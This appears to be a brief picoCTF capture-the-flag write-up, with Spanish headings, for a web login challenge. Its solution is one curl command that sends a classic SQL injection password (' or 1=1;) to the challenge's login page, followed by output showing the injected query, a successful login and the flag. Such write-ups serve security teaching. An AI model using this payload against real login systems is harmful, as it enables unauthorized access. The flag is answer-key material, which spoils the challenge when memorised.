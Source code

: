 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Datos de acceso al nivel
```
Link: 
```

## Solución

```bash
jpflores-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1=1;&debug=1"
<pre>username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>jpflores-picoctf@webshell:~$ 

```

## Notas adicionales
```bash


```